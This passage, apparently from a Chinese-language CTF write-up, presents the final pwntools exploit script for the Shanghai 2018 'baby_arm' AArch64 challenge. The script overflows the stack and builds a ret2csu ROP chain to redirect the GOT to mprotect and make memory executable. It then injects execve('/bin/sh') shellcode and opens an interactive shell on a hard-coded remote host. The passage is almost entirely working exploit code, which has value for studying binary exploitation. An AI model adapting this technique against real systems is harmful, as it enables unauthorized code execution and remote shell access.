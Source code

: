 最终的 [exp](https://github.com/bash-c/pwn_repo/blob/master/Shanghai2018_baby_arm/solve.py) 如下：
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
import sys
context.binary = "./pwn"
context.log_level = "debug"

if sys.argv[1] == "l":
    io = process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", "./pwn"])
elif sys.argv[1] == "d":
    io = process(["qemu-aarch64", "-g", "1234", "-L", "/usr/aarch64-linux-gnu", "./pwn"])
else:
    io = remote("106.75.126.171", 33865)

def csu_rop(call, x0, x1, x2):
    payload = flat(0x4008CC, '00000000', 0x4008ac, 0, 1, call)
    payload += flat(x2, x1, x0)
    payload += '22222222'
    return payload


if __name__ == "__main__":
    elf = ELF("./pwn", checksec = False)
    padding = asm('mov x0, x0')

    sc = asm(shellcraft.execve("/bin/sh"))
    #  print disasm(padding * 0x10 + sc)
    io.sendafter("Name:", padding * 0x10 + sc)
    sleep(0.01)

    #  io.send(cyclic(length = 500, n = 8))
    #  rop = flat()
    payload = flat(cyclic(72), csu_rop(elf.got['read'], 0, elf.got['__gmon_start__'], 8))
    payload += flat(0x400824)
    io.send(payload)
    sleep(0.01)
    io.send(flat(elf.plt['mprotect']))
    sleep(0.01)

    raw_input("DEBUG: ")
    io.sendafter("Name:", padding * 0x10 + sc)
    sleep(0.01)

    payload = flat(cyclic(72), csu_rop(elf.got['__gmon_start__'], 0x411000, 0x1000, 7))
    payload += flat(0x411068)
    sleep(0.01)
    io.send(payload)

    io.interactive()
```
